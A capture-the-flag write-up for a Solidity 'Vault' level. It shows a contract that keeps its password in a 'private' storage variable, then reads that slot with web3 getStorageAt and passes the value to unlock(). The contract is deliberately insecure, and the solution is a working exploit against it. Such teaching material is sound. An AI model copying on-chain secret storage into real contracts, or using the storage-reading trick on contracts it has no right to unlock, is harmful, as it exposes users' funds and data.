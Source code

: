 # 08. Vault

Unlock the vault to pass the level!

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

## Vulnerability

Nothing is really private on the blockchain if data is stored, it is publicly available.

We know that the contract storage contains 2 variables :

locked : in slot 0
password : in slot 1 and maybe more

Let's read the contract storage :

```js
await web3.eth.getStorageAt(contract.address, 1);
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
await web3.eth.getStorageAt(contract.address, 2);
"0x0000000000000000000000000000000000000000000000000000000000000000"
```

So the password is : `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`.

The following code will solve the challenge by sending to the contract its own storage slot 1: 

```js
contract.unlock(await web3.eth.getStorageAt(contract.address, 1));
```